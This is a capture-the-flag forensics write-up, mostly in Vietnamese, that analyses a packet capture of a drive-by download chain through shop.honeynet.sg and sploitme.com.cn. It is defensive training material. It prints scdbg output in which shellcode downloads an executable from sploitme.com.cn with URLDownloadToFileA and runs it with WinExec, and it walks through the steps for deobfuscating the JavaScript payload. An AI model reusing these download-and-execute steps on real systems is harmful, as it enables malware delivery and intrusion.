









| 10.0.4.15 | 64.236.114.1 (honeynet.org) | 10.0.4.15 [8fd12edd2dc1462] [8fd12edd2dc1462.] [8FD12EDD2DC1462] (Windows) |
| --------- | --------------------------- | -------------------------------------------------------------------------- |
|           | 192.168.56.52               | 192.168.56.51 [[shop.honeynet.sg](http://shop.honeynet.sg/)] (Other)       |
|           | 192.168.56.51               |                                                                            |
| 10.0.3.15 | 192.168.56.52               | sploitme.com.cn                                                            |
|           | 64.236.114.1                |                                                                            |
|           | 192.168.56.50               | 192.168.56.51 [shop.honeynet.sg] (Other)                                   |
| 10.0.2.15 | 192.168.56.51               |                                                                            |
| 10.0.5.15 | 224.0.0.22                  |                                                                            |


NetBios, SMB, HTTP


[shop.honeynet.sg](http://shop.honeynet.sg/) → [sploitme.com.cn](http://sploitme.com.cn/) → rapidshare.com.eyu32.ru


http.host==sploitme.com.cn


http://rapidshare.com.eyu32.ru/login.php


### Q1 Multiple systems were targeted. Provide the IP address of the highest one. {#3477b0eb61a480cebe34c1f8633c9293}


10.0.5.15


### Q2 What protocol do you think the attack was carried over? {#3477b0eb61a480eea9fbddc81af12ac3}


### Q3 What was the URL for the page used to serve malicious executables (don't include URL parameters)? {#3477b0eb61a48029b8cad9852918eb9f}


Tìm trong networkminer thấy file exe





http://sploitme.com.cn/fg/load.php


### Q4 What is the number of the packet that includes a redirect to the french version of Google and probably is an indicator for Geo-based targeting? {#3477b0eb61a480188be9db205f12a019}


**Redirect (Chuyển hướng):** Trong giao thức web (HTTP), hành vi chuyển hướng được máy chủ thực hiện bằng cách trả về mã trạng thái **301** (Moved Permanently) hoặc **302** (Found). Khi đó, gói tin phản hồi sẽ chứa một trường có tên là `Location: <URL_mới>` để bảo trình duyệt tự động chuyển sang trang đó.
http.location contains "google”


### Q5 What was the CMS used to generate the page 'shop.honeynet.sg/catalog/'? (Three words, space in between) {#3477b0eb61a480f48b45eec7010f5cae}


CMS (content management system) là nền tảng giúp người dùng tạo, chỉnh sửa, thay đổi nội dung trên trang web mà không cần biết lập trình

	- **CMS Đa dụng (Blog, Tin tức, Web công ty):** WordPress (chiếm hơn 40% website toàn cầu), Joomla, Drupal.
	- **CMS Thương mại điện tử (E-commerce):** Shopify, Magento, WooCommerce, OpenCart, và hệ thống **osCommerce**
- Là mỏ vàng Zero day cho hacker
- dùng http host rồi dò theo


### Q6 What is the number of the packet that indicates that 'show.php' will not try to infect the same host twice? {#3477b0eb61a480e09da5c828a1d05323}


174





366





cÙNG LÀ 10.0.3.15 thì nó không tải nữa


### Q7 One of the exploits being served targets a vulnerability in "msdds.dll". Provide the corresponding CVE number. {#3477b0eb61a480a2a13cc137b0e4265c}


**CVE-2005-2127**


### Q8 What is the name of the executable being served via 'http://sploitme.com.cn/fg/load.php?e=8' ? {#3477b0eb61a480bb8e49ed59dde3a81e}


Trong http://sploitme.com.cn/fg/load.php?e=8' có một file java script bị obfuscate.


ta phải đổi thành console.log để không thực hiện mã này mà chỉ in ra màn hình. Rồi đến trình compile online bất kỳ để giải mã


Sau đó copy 4 cục này. và cho vào cyber chef





Công thức là ngắt ra thành hex và cứ 2 bit theo quy luật của hex với LE


Rồi chuyển về binary lại





Dùng scdbg phát hiện ra được





Shellcode binary là e.exe


Mã độc nạp thư viện `urlmon.dll` của Windows. Đây là thư viện chuyên quản lý các kết nối Internet và tải file (thường được Internet Explorer sử dụng)


```c++
4010d7  WinExec(C:\users\cuong_nguyen\AppData\Local\Temp\e.exe)
4010e0  ExitThread(0)
```


### Q9 One of the malicious files was first submitted for analysis on VirusTotal at 2010-02-17 11:02:35 and has an MD5 hash ending with '78873f791'. Provide the full MD5 hash. {#3477b0eb61a48013922cc39d44fb3bfc}


52312bb96ce72f230f0350e78873f791


### Q10 What is the name of the function that hosted the shellcode relevant to 'http://sploitme.com.cn/fg/load.php?e=3'? {#3477b0eb61a4806da72ae9a03c363fbe}


ta đem cái nội dung trong từng hàm đi test





Rồi dịch như câu số 8 





:::tip

**Định dạng trên trên: Đổi chuẩn biểu diễn (Encoding)**. Cụ thể, đây là định dạng **JavaScript Unicode Escape Sequence**
- **Kẻ chỉ điểm** **`%u`****:** Đây là dấu hiệu rõ ràng nhất. Trong ngôn ngữ lập trình (đặc biệt là JavaScript và trình duyệt cũ), dấu `%` có nghĩa là "ký tự đặc biệt" (escape), và chữ `u` viết tắt của **Unicode**. Nó báo cho hệ thống biết: "4 ký tự tiếp theo đây là một mã Unicode nhé".

- **Bảng chữ cái bị giới hạn:** Nhìn kỹ vào các ký tự sau `%u`, bạn sẽ thấy chúng chỉ bao gồm các số từ `0-9` và các chữ cái từ `A-F` (như C, B, D, E). Đây chính xác là hệ cơ số 16 (Hexadecimal). Tuyệt đối không có các chữ cái như G, H, hay Z xuất hiện ở đây

:::


:::tip

Nhận diện những thằng khác:
- **Hex Encoding (Dạng C/C++):** Sử dụng dấu `\x` thay vì `%u`, và đi kèm sau đó chỉ có 2 ký tự Hex (1 byte). _(Ví dụ:_ _`\x33\xC0\x64\x8B`__)_

- **URL Encoding:** Tương tự như trên nhưng dùng dấu `%` đi kèm 2 ký tự. Thường thấy trên thanh địa chỉ web. _(Ví dụ:_ _`%33%C0%64%8B`__)_

- **XOR/Custom Cipher:** Nhìn như một đống bọt biển, không có quy luật, không có `%` hay `\x`. (Đó là lúc bạn phải dùng scdbg hoặc dò code JavaScript như chúng ta đã làm ở câu trước để tìm ra "chìa khóa" giải mã).

:::


### Q11 Deobfuscate the JS at 'shop.honeynet.sg/catalog/' and provide the value of the 'click' parameter in the resulted URL. {#3477b0eb61a480e499b6df59a3f212f1}


### Q12 Deobfuscate the JS at 'rapidshare.com.eyu32.ru/login.php' and provide the value of the 'click' parameter in the resulted URL. {#3477b0eb61a48007902ae913fc09bb0d}


tìm được gói đó và tìm javascript


Dùng cyberchef giải mã





### Q13 What was the version of 'mingw-gcc' that compiled the malware? {#3477b0eb61a480b78088c2700363f81f}


dùng strings để grep gcc


```c++
└─$ strings video.exe | grep "gcc"
/opt/local/var/macports/build/_opt_local_var_macports_sources_rsync.macports.org_release_ports_cross_i386-mingw32-gcc/work/gcc-3.4.5-20060117-1/gcc/config/i386/w32-shared-ptr.c
```


### Q14 The shellcode used a native function inside 'urlmon.dll' to download files from the internet to the compromised host. What is the name of the function? {#3477b0eb61a48075ae0cc762abe48df2}


```c++
4010ca  URLDownloadToFileA(http://sploitme.com.cn/fg/load.php?e=8, C:\users\cuong_nguyen\AppData\Local\Temp\e.exe)
```


# Tổng kết {#3477b0eb61a480678742c66eed57556f}


### Câu lệnh {#3477b0eb61a48097b997f32b3f4530c0}


http.location contains "google”

